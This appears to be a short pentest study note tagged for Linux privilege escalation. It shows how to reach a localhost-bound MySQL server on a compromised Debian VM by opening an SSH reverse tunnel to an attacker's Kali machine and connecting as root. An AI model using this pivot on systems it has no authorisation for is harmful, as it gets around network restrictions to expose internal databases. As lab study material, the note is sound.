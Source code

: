 
2024-06-14 10:55

Source: #privesc 

Tags: [[linux]]

For some reason we were not able to run the [[mysql]] client from the debian VM or we wanted to run some commands against the mysql server from our kali machine  

**Adversary  machine:**

- Determine which port mysql listening on using `netstat -nl`
- Since 3306 is default port for mysql our desired local address is shown as `127.0.0.1:3306`
- Note that it is bound to the localhost address meaning we can't access it externally we can fix this by using [[ssh]] port forwarding .
```
ssh -R 4444:127.0.0.1:3306 root@<kali-ip>

4444 on my kali machine 
<kali-ip> is our kali machines ip
```

**Kali machine :**

Here run mysql command and instruct it to connect to port 4444 of my local kali using the root user 
```
mysql -u root -h 127.0.0.1 -P 4444
```
traffic is then forwarded over the ssh connection, this allows you to connect to the debian mysql server remotely 

to check the hostname in mysql use 
`select @@hostname;`


### References
[[Privilege Escalation]]